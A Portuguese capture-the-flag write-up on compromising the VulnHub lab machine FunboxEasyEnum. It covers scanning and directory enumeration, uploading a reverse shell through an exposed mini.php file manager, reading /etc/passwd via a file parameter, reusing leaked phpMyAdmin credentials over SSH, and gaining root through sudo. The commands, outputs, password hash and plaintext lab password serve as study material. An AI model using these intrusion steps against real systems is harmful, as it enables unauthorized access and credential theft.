









---

title: "FunboxEasyEnum"
categories: [CTF, VulnHub Funbox]
tags: [EASY, Linux, Web, mini.php, Local File Include, Unrestricted File Upload]
mermaid: true
image: ../assets/img/vulnhub/funboxenum/image.png

---

Essa máquina foi excelente para explorar diversos pontos de ataque e enumeração. Não existe apenas uma maneira de explorar as vulnerabilidades, permitindo diversos testes para estudo e aprimoramento de técnicas de intrusão. Primeiramente foi realizado um scan de portas, com o intuito de encontrar os serviços ativos no host, foi constatado que a porta 80 estava com o Apache funcionando.

Após isso, foi feito uma enumeração de diretórios web para identificar possíveis serviços. então foi identificado que havia diretórios e arquivos suspeitos no host. Um arquivo mini.php foi encontrado, com ele era possível manipular arquivos do sistema e realizar uploads. Após o upload de um reverseshell, foi possível acessar a máquina pela primeira vez. 

Para escalação de privilégios foi encontrado arquivo com credenciais de usuários e logo após foi verificado permissões de sudo mal configuradas, permitindo a escalação de privilégios no host.

# Overview



.

## 1. Information Gathering

### Scan ARP

Realizando um ARP scan para identificar possíveis hosts na rede e descobrir qual o IP do alvo.

```lua
┌──(root㉿kali)-[/home/kali]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:8b:bc:b7, IPv4: 192.168.0.5
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1     5c:62:8b:2b:8a:d1       (Unknown)
192.168.0.3     08:00:27:49:f9:f8       (Unknown)
192.168.0.6     a8:a1:59:d5:14:e8       (Unknown)
192.168.0.2     bc:6a:d1:20:9d:f7       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.852 seconds (138.23 hosts/sec). 4 responded
   
   
                                                                                                                                                                                                                                          
```

Foi constatado que o alvo possui o IP `192.168.0.3` 

### Port Scan

```bash
nmap -v -g53 192.168.0.3
```

Output

```

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:49:F9:F8 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.036KB)
```

## 2. Enumeration

### Port 80

Acessando a porta 80 do host, é possível identificar que roda um servidor web apache no ubuntu server.



Realizando enumeração de diretórios e arquivos web com feroxbuster

```lua
feroxbuster -u http://192.168.0.3 -w /usr/share/wordlists/dirb/big.txt -x php,pdf,txt,bkp,md

```

```lua
200      GET       15l       74w     6147c http://192.168.0.3/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://192.168.0.3/
301      GET        9l       28w      315c http://192.168.0.3/javascript => http://192.168.0.3/javascript/
200      GET      130l      300w     4443c http://192.168.0.3/mini.php
200      GET      375l      964w    10918c http://192.168.0.3/index.html
200      GET        1l        2w       21c http://192.168.0.3/robots.txt
301      GET        9l       28w      315c http://192.168.0.3/phpmyadmin => http://192.168.0.3/phpmyadmin/
301      GET        9l       28w      311c http://192.168.0.3/secret => http://192.168.0.3/secret/
200      GET      209l      806w    13277c http://192.168.0.3/phpmyadmin/doc/html/index.html
200      GET       98l      278w    35231c http://192.168.0.3/phpmyadmin/favicon.ico
200      GET      325l      922w     7771c http://192.168.0.3/phpmyadmin/js/codemirror/lib/codemirror.css
302      GET        0l        0w        0c http://192.168.0.3/phpmyadmin/url.php => http://192.168.0.3/phpmyadmin/
200      GET       26l      359w    10643c http://192.168.0.3/phpmyadmin/changelog.php
200      GET       26l      359w    10646c http://192.168.0.3/phpmyadmin/db_structure.php
200      GET        1l        1w       53c http://192.168.0.3/phpmyadmin/themes/dot.gif
200      GET      267l      586w     6763c http://192.168.0.3/phpmyadmin/js/get_image.js.php
200      GET      170l      365w     2611c http://192.168.0.3/phpmyadmin/themes/pmahomme/css/printview.css
200      GET        0l        0w        0c http://192.168.0.3/phpmyadmin/js/get_scripts.js.php
200      GET     1225l     3355w    35020c http://192.168.0.3/phpmyadmin/themes/pmahomme/jquery/jquery-ui-1.11.4.css
200      GET       19l      102w     8154c http://192.168.0.3/phpmyadmin/themes/pmahomme/img/logo_right.png
200      GET       26l      359w    10639c http://192.168.0.3/phpmyadmin/index.php
200      GET       38l       73w      662c http://192.168.0.3/phpmyadmin/js/codemirror/addon/hint/show-hint.css
200      GET       77l      147w     3068c http://192.168.0.3/phpmyadmin/js/codemirror/addon/lint/lint.css
200      GET     5185l    11337w   106113c http://192.168.0.3/phpmyadmin/phpmyadmin.css.php
200      GET       49l       53w     2061c http://192.168.0.3/phpmyadmin/js/whitelist.php
200      GET      394l     2973w    29261c http://192.168.0.3/phpmyadmin/js/messages.php
301      GET        9l       28w      319c http://192.168.0.3/phpmyadmin/doc => http://192.168.0.3/phpmyadmin/doc/
301      GET        9l       28w      322c http://192.168.0.3/javascript/jquery => http://192.168.0.3/javascript/jquery/
200      GET       26l      359w    10640c http://192.168.0.3/phpmyadmin/export.php
200      GET       26l      359w    10640c http://192.168.0.3/phpmyadmin/import.php
301      GET        9l       28w      318c http://192.168.0.3/phpmyadmin/js => http://192.168.0.3/phpmyadmin/js/
200      GET       26l      359w    10641c http://192.168.0.3/phpmyadmin/license.php
301      GET        9l       28w      322c http://192.168.0.3/phpmyadmin/locale => http://192.168.0.3/phpmyadmin/locale/
200      GET       26l      359w    10640c http://192.168.0.3/phpmyadmin/logout.php
200      GET       26l      359w    10644c http://192.168.0.3/phpmyadmin/navigation.php
200      GET       26l      359w    10641c http://192.168.0.3/phpmyadmin/phpinfo.php
301      GET        9l       28w      324c http://192.168.0.3/phpmyadmin/doc/html => http://192.168.0.3/phpmyadmin/doc/html/
401      GET       14l       54w      458c http://192.168.0.3/phpmyadmin/setup
301      GET        9l       28w      319c http://192.168.0.3/phpmyadmin/sql => http://192.168.0.3/phpmyadmin/sql/
200      GET       26l      359w    10637c http://192.168.0.3/phpmyadmin/sql.php
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/az => http://192.168.0.3/phpmyadmin/locale/az/
200      GET    10253l    40948w   268026c http://192.168.0.3/javascript/jquery/jquery
301      GET        9l       28w      322c http://192.168.0.3/phpmyadmin/themes => http://192.168.0.3/phpmyadmin/themes/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/da => http://192.168.0.3/phpmyadmin/locale/da/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/cs => http://192.168.0.3/phpmyadmin/locale/cs/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/de => http://192.168.0.3/phpmyadmin/locale/de/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/el => http://192.168.0.3/phpmyadmin/locale/el/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/es => http://192.168.0.3/phpmyadmin/locale/es/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/et => http://192.168.0.3/phpmyadmin/locale/et/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/fi => http://192.168.0.3/phpmyadmin/locale/fi/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/js/jquery => http://192.168.0.3/phpmyadmin/js/jquery/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/gl => http://192.168.0.3/phpmyadmin/locale/gl/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/nb => http://192.168.0.3/phpmyadmin/locale/nb/
301      GET        9l       28w      325c http://192.168.0.3/phpmyadmin/locale/vi => http://192.168.0.3/phpmyadmin/locale/vi/
[####################] - 9m   2825724/2825724 0s      found:55      errors:276112 
[####################] - 3m    122814/122814  762/s   http://192.168.0.3/ 
[####################] - 4m    122814/122814  457/s   http://192.168.0.3/javascript/ 
[####################] - 5m    122814/122814  450/s   http://192.168.0.3/phpmyadmin/ 
[####################] - 5m    122814/122814  442/s   http://192.168.0.3/secret/ 
[####################] - 4m    122814/122814  497/s   http://192.168.0.3/phpmyadmin/doc/ 
[####################] - 4m    122814/122814  473/s   http://192.168.0.3/javascript/jquery/ 
[####################] - 4m    122814/122814  552/s   http://192.168.0.3/phpmyadmin/js/ 
[####################] - 4m    122814/122814  574/s   http://192.168.0.3/phpmyadmin/locale/ 
[####################] - 2m    122814/122814  845/s   http://192.168.0.3/phpmyadmin/doc/html/ 
[####################] - 2m    122814/122814  964/s   http://192.168.0.3/phpmyadmin/sql/ 
[####################] - 2m    122814/122814  1068/s  http://192.168.0.3/phpmyadmin/themes/ 
[####################] - 2m    122814/122814  1134/s  http://192.168.0.3/phpmyadmin/locale/az/ 
[####################] - 85s   122814/122814  1445/s  http://192.168.0.3/phpmyadmin/locale/cs/ 
[####################] - 2m    122814/122814  1331/s  http://192.168.0.3/phpmyadmin/locale/da/ 
[####################] - 2m    122814/122814  1200/s  http://192.168.0.3/phpmyadmin/locale/de/ 
[####################] - 84s   122814/122814  1470/s  http://192.168.0.3/phpmyadmin/locale/el/ 
[####################] - 67s   122814/122814  1821/s  http://192.168.0.3/phpmyadmin/locale/es/ 
[####################] - 69s   122814/122814  1783/s  http://192.168.0.3/phpmyadmin/locale/et/ 
[####################] - 3m    122814/122814  797/s   http://192.168.0.3/phpmyadmin/locale/fi/ 
[####################] - 2m    122814/122814  1028/s  http://192.168.0.3/phpmyadmin/js/jquery/ 
[####################] - 3m    122814/122814  799/s   http://192.168.0.3/phpmyadmin/locale/gl/ 
[####################] - 2m    122814/122814  862/s   http://192.168.0.3/phpmyadmin/locale/nb/ 
[####################] - 71s   122814/122814  1740/s  http://192.168.0.3/phpmyadmin/locale/vi/ 
```

### Mini.php

Pode-se verificar um arquivo extremamente suspeito, o qual foi verificado se tratar de um arquivo que tem as mesmas funções de uma shell. Permitindo a manipulação de arquivos no sistema.



## 3. Exploitation

### 3.1 Unrestricted File Upload

Explorando esse arquivo, foi possível subir um arquivo com um shell reverso em php para ganhar o primeiro acesso ao host.



Sendo assim, após acessar o arquivo pela url, foi possível ganhar o primeiro acesso ao host.

OBS:

1. É necessário selecionar a opção CHMOD e editar o arquivo para execução. Dessa forma, ao tentar acessar, o arquivo malicioso será executado.
2. A modificação das permissões parecem ser randômicas e não é possível controlar manualmente. Sendo assim, tentar algumas vezes até que o arquivo seja executável.



Primeiro acesso obtido:

```lua
┌──(root㉿kali)-[/home/kali]
└─# nc -vnlp 8888             
listening on [any] 8888 ...
ls
connect to [192.168.0.5] from (UNKNOWN) [192.168.0.3] 45342
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:52:27 up 46 min,  0 users,  load average: 0.00, 1.99, 15.84
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

### Local File Inclusion

Uma outra vulnerabilidade que foi encontrada no sistema, permite ler arquivos via parâmetro GET.

Ao clicar exatamamente em cima do arquivo, podemos verificar que aparece um parametro que permite lermos os arquivos.

```lua
http://192.168.0.3/shell.php?filesrc=/var/www/html/index.html&path=/var/www/html
```

`filesrc=` : Tal parâmetro permite que selecionemos arquivo que sejam autorizados a leitura. Dessa forma, é possível modificar o arquivo pelo parâmetro e acessar outros arquivos do sistema.



Dessa forma, conseguimos acessar outros arquivos no sistema. Foi possível realizar uma enumeração de usuários além de encontrar a senha do usuário oracle que está mal configurada no arquivo passwd.

```lua
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

Também é possível ler o arquivo pela opção de edição do mini.php

Ao selecionar a inspeção de elemento e selecionar a caixa de opções, é possível verificar que pode-se modificar o caminho onde o arquivo está configurado para a edição.



Após uma simples edição, conseguimos acessar o arquivo `passwd` .






Observação! não foi possível editar o arquivo.

Obs: Não é possível acessar arquivos sensíveis sem a devida permissão, como exemplo o arquivo `/etc/shadow` 

## 4. Post-Exploitation

Após obter o primeiro acesso a máquina, foi realizado a escalação de privilégios.

Durante a enumeração de diretórios web, foi verificado que existe um phpmyadmin instalado no sistema.

```lua
[####################] - 5m    122814/122814  450/s   http://192.168.0.3/phpmyadmin/ 
```

O phpmyadmin tem um arquivo de configuração que contem informações sobre o banco de dados.

```lua
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

Obs: Só foi possível acessar esse arquivo porque está configurado o grupo sendo do www-data.

```lua
www-data@funbox7:/etc/phpmyadmin$ ls -lh
ls -lh
total 44K
-rw-r--r-- 1 root root     2.1K Jul 10  2017 apache.conf
drwxr-xr-x 2 root root     4.0K Jul 10  2017 conf.d
-rw-r----- 1 root www-data  525 Sep 18  2020 config-db.php
-rw-r--r-- 1 root root      168 Jun 23  2016 config.footer.inc.php
-rw-r--r-- 1 root root      168 Jun 23  2016 config.header.inc.php
-rw-r--r-- 1 root root     6.2K Jun 23  2016 config.inc.php
-rw-r----- 1 root www-data    8 Sep 18  2020 htpasswd.setup
-rw-r--r-- 1 root root      646 Apr  7  2017 lighttpd.conf
-rw-r--r-- 1 root root      198 Jun 23  2016 phpmyadmin.desktop
-rw-r--r-- 1 root root      295 Jun 23  2016 phpmyadmin.service
```

Dessa forma, foi possível encontrar o usuário e senha do banco de dados. Foi realizada a tentativa de acessar o phpmyadmin com essas credenciais, o que foi possível, porém não havia nenhum conteúdo no banco de dados funcionando no sistema.

foi então que essa senha foi testada nos usuários encontrados no sistema.

```lua
ls /home
goat  harry  karla  oracle  sally
```

A credencial foi válida para o usuário “karla”. Onde foi possível acessar o terminal via ssh.

```lua
┌──(kali㉿kali)-[~]
└─$ ssh karla@192.168.0.3
karla@192.168.0.3's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan 18 03:06:42 UTC 2025

  System load:  0.0               Processes:             133
  Usage of /:   81.1% of 4.66GB   Users logged in:       0
  Memory usage: 60%               IP address for enp0s3: 192.168.0.3
  Swap usage:   1%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

69 packages can be updated.
1 update is a security update.

*** System restart required ***
Last login: Sat Sep 19 15:28:52 2020 from 192.168.178.143
karla@funbox7:~$
```

Para escalação de priv foi utilizado o comando `sudo -l`

```lua
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# 
```

O usuário “karla” não necessita de autenticação para acessar como root.

```lua
root@funbox7:/home/karla# cat /root/root.flag
  █████▒ █    ██  ███▄    █  ▄▄▄▄    ▒█████  ▒██   ██▒                   
▓██   ▒  ██  ▓██▒ ██ ▀█   █ ▓█████▄ ▒██▒  ██▒▒▒ █ █ ▒░                   
▒████ ░ ▓██  ▒██░▓██  ▀█ ██▒▒██▒ ▄██▒██░  ██▒░░  █   ░                   
░▓█▒  ░ ▓▓█  ░██░▓██▒  ▐▌██▒▒██░█▀  ▒██   ██░ ░ █ █ ▒                    
░▒█░    ▒▒█████▓ ▒██░   ▓██░░▓█  ▀█▓░ ████▓▒░▒██▒ ▒██▒                   
 ▒ ░    ░▒▓▒ ▒ ▒ ░ ▒░   ▒ ▒ ░▒▓███▀▒░ ▒░▒░▒░ ▒▒ ░ ░▓ ░                   
 ░      ░░▒░ ░ ░ ░ ░░   ░ ▒░▒░▒   ░   ░ ▒ ▒░ ░░   ░▒ ░                   
 ░ ░     ░░░ ░ ░    ░   ░ ░  ░    ░ ░ ░ ░ ▒   ░    ░                     
           ░              ░  ░          ░ ░   ░    ░                     
                                  ░                                      
▓█████  ▄▄▄        ██████ ▓██   ██▓▓█████  ███▄    █  █    ██  ███▄ ▄███▓
▓█   ▀ ▒████▄    ▒██    ▒  ▒██  ██▒▓█   ▀  ██ ▀█   █  ██  ▓██▒▓██▒▀█▀ ██▒
▒███   ▒██  ▀█▄  ░ ▓██▄     ▒██ ██░▒███   ▓██  ▀█ ██▒▓██  ▒██░▓██    ▓██░
▒▓█  ▄ ░██▄▄▄▄██   ▒   ██▒  ░ ▐██▓░▒▓█  ▄ ▓██▒  ▐▌██▒▓▓█  ░██░▒██    ▒██ 
░▒████▒ ▓█   ▓██▒▒██████▒▒  ░ ██▒▓░░▒████▒▒██░   ▓██░▒▒█████▓ ▒██▒   ░██▒
░░ ▒░ ░ ▒▒   ▓▒█░▒ ▒▓▒ ▒ ░   ██▒▒▒ ░░ ▒░ ░░ ▒░   ▒ ▒ ░▒▓▒ ▒ ▒ ░ ▒░   ░  ░
 ░ ░  ░  ▒   ▒▒ ░░ ░▒  ░ ░ ▓██ ░▒░  ░ ░  ░░ ░░   ░ ▒░░░▒░ ░ ░ ░  ░      ░
   ░     ░   ▒   ░  ░  ░   ▒ ▒ ░░     ░      ░   ░ ░  ░░░ ░ ░ ░      ░   
   ░  ░      ░  ░      ░   ░ ░        ░  ░         ░    ░            ░   
                           ░ ░                                           
                                                                         
...solved ! 

Please, tweet this screenshot to @0815R2d2. Many thanks in advance.
root@funbox7:/home/karla# 

```
